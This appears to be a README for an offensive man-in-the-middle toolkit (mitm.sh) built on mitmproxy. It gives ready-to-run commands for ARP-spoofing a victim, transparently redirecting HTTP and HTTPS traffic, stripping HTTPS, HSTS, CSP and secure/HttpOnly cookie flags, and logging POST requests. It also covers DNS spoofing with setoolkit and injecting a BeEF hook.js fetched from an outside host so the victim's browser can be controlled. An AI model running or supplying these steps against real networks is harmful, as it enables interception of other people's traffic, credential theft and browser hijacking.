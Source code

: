MITM ATTACK WITH HTTP PROXYING (using [MITMPROXY](http://docs.mitmproxy.org/en/stable/) v1.0)
----------
  
You can run  **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```  
**/!\ Working with Mitmproxy v1.0. Mitmproxy will be automatically downloaded and installed.**  
  
Example of command for full interception (HTTPS/HSTS stripping when possible, otherwise Upstream Certificates):  
  
```
sudo ./mitm.sh -g -n -s -x -i wlan0 192.168.1.1 192.168.1.11
```
  
You also can inject a javascript payload (for example Beef payload):  
```
sudo ./mitm.sh -g -n -j http://192.168.1.10:3000/hook.js -i wlan0 192.168.1.1 192.168.1.11
```
  
Or run a DNS spoofing attack (will run dnsspoof and setoolkit):  
```
sudo ./mitm.sh -g -n -d -i wlan0 192.168.1.1 192.168.1.11
```
  
Of course you can run all these features together.  
  
While intercepting trafic, we also aims at:
 - Dropping the following request headers: *If-Modified-Since*,*Cache-Control*,*Upgrade-Insecure-Requests*
 - Dropping the following response headers: *Strict-Transport-Security*,*Public-Key-Pins*,*Content-Security-Policy*,*X-XSS-Protection*,*X-Frame-Options*
 - Dropping meta tag *Content-Security-Policy*
 - Dropping cookies flags *secure*, *HttpOnly*
 - Stripping https:// links and redirections
  
___
  
**mitm.sh** is automating the following steps:  

 - activate ip forwarding (all secured connections will be routed without interception):  
```bash
sysctl -w net.ipv4.ip_forward=1
```

 - avoid to send useless ICMP redirect messages
```bash
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

 - configure nat (8080 is the default listening port of mitmproxy):  
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```  
 - and if you want to add HTTPS capture:
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```  
*The REDIRECT target is used to redirect packets and streams to the machine itself. This means that we could for example REDIRECT all packets destined for the HTTP ports to an HTTP proxy (useful for transparent proxying).*  

 - run arp spoofing with calling the script **arpoison.sh**:  
```bash
xterm -geometry 100x25+1+200 -hold -e arpspoof -t [ip victim] [ip route]
xterm -geometry 100x25+1+300 -hold -e arpspoof -t [ip route] [ip victim]
```
*N.B: arpoison.sh can try to force the arp poisoning of some boxes*  

 - check if arp poisoning is working on both ways with **chk_poison.py**:  
```bash
python ./chk_poison.py [ip victim] [ip route]
```

 - run mitmproxy with our custom **sslstrip.py** module, the **injectjs.py** module and the **io_write_dumpfile.py** module. io_write_dumpfile.py is logging only relevant POST requests (if you want to log trafic, **-a \<logfilename\>**):  
```bash
mitmproxy -T --anticache --host --anticomp --noapp --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py --eventlog
```  
  
*N.B: mitmproxy (with option -w/-a for logging) will dump the whole flows in a tnetstrings format.*  
  
You can also run mitmdump (same as mitmproxy but non interactive):  
```bash
mitmdump -T --anticache --host --anticomp --noapp --quiet --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py"
```
 
 - if you want to extra log urls in a file:   
```bash
urlsnarf > ./urlsnarf.txt &
```
  
**Now go on a website with an unsecured (http) landing webpage and try to click on a link forwarding to a secure area. All trafic should stay clear between the victim and mitmproxy.  
If you injected a Beef hook thanks to the -j option, also check the browser hooked in your Beef panel.**  
  
**Don't hesitate to contribute to all of these modules.**


